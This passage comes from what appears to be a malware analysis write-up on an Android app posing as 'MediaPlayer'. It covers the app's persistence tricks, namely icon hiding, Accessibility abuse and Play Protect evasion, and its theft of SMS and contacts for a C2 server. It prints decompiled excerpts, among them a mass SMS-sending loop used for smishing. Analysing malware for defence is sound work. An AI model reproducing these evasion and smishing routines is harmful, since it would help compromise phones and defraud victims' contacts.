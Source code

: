```cs
                            ActivityInjection.this.Tools.enableSocialInjection(context4, Boolean.valueOf(false));
                        }
                    }
                    catch(Exception unused_ex) {
                        return;
                    }

                    ActivityInjection.this.finishAndRemoveTask();
                }
}
```

# Presistance

After installing the malware, the malware will hide its icon and only the name of the malware `MediaPlayer` is visible. After enabling the `Accessibility service`, the malware will hide the icon and the name of the malware. And if the user goes to the app from the settings, the malware will bring the screen to the `Home screen`. And disable `Play protect`, not to label it as malicious and it won't delete the malware. This happens because you enabled `Accessibility service`, so don't enable `Accessibility service` next time.

```cs
 protected void onCreate(Bundle bundle0) {
        super.onCreate(bundle0);
        Bundle bundle1 = this.getIntent().getExtras();
        if(bundle1 != null && (bundle1.getBoolean("CLOSE"))) {
            this.Tools.Log(this, "[Activity Play Protect] Redirecting to Google Play Services", Boolean.valueOf(false));
            this.Tools.goToPlayStoreSomething(this, "com.google.android.gms");
            this.finish();
            return;
        }
 }
```

# steal SMSs and contacts then smishing

The malware will try to steal the stored SMSs from the user's device. And send them to the C2 server using `ALL_SMS` command. And the malware will steal all the contacts and send them to the C2 server using `GET_CONTACTS` command. After stealing the contacts, the malware will try smishing these stolen contacts by sending spam SMSs messages to download malicious APPs using `SEND_SMS` command. 

```cs
 public void run() {
        try {
            String s = this.phoneNumbers;
            if(s != null) {
                boolean z = s.contains(":");
                int v = 0;
                if(!z) {
                    this.Tools.Log(this.ctx, "[SMSSender] Sending SMS: " + this.message + " to " + this.phoneNumbers, Boolean.valueOf(false));
                    this.sendMSG(this.phoneNumbers, this.message);
                    return;
                }

                String[] arr_s = this.phoneNumbers.split(":");
                this.Tools.Log(this.ctx, "[SMSSender] Sending SMS: " + this.message + " to " + arr_s.length + " numbers.", Boolean.valueOf(false));
                while(v < arr_s.length) {
                    String s1 = arr_s[v];
                    Thread.sleep(0x460L);
```